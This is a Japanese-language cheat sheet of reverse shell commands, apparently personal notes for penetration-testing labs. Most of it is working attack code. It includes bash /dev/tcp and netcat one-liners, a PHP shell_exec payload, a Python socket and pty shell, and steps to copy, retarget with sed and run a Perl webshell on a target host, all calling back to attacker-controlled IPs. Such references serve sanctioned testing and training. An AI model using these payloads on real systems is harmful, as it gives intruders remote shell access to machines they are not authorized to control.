 # Reverse Shell

## ncリバースシェル

```
bash -i >& /dev/tcp/192.168.11.146/4444 0>&1
```

```
bash -c 'bash -i >& /dev/tcp/10.10.16.2/4444 0>&1'
```

```
nc -nv 10.10.14.30 4444 -e /bin/sh
nc -nv 10.10.14.30 4444 -e cmd.exe
```



## phpリバースシェル

https://github.com/ivan-sincek/php-reverse-shell

↑windowsとlinuxどちらにも対応していてよい

#### 上記PHPのリバースシェルがエラーになる場合

利用できる関数が制限されている場合がある。phpinfo()関数を呼び出すことで確認が可能

![image-20230204155710137](img/reverseshell/image-20230204155710137.png)

![image-20230204155718698](img/reverseshell/image-20230204155718698.png)

そのような場合簡易版のPHPもリバースシェルとしてよく使える

#### shellコマンドでリバースシェルを張る場合

```php
<?php
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.167/1234 0>&1'");
?>
```



## pythonリバースシェル

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

```bash
/usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.167",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```



## perl

* 攻撃対象ホストでperlがあることを確認

  ```
  which perl
  whereis perl
  ```

* `/usr/share`からリバースシェルをコピーする

  ```bash
  cp /usr/share/webshells/perl/perl-reverse-shell.pl alpha-shell.pl
  ```

* ipとportを書き換える

  ```bash
  sed -i 's/my $ip = .*;/my $ip = "192.168.119.167";/; s/my $port = .*;/my $port = 444;/' alpha-shell.pl
  ```

* 実行する

  ```
  /usr/bin/perl /tmp/alpha-shell.pl
  ```

  
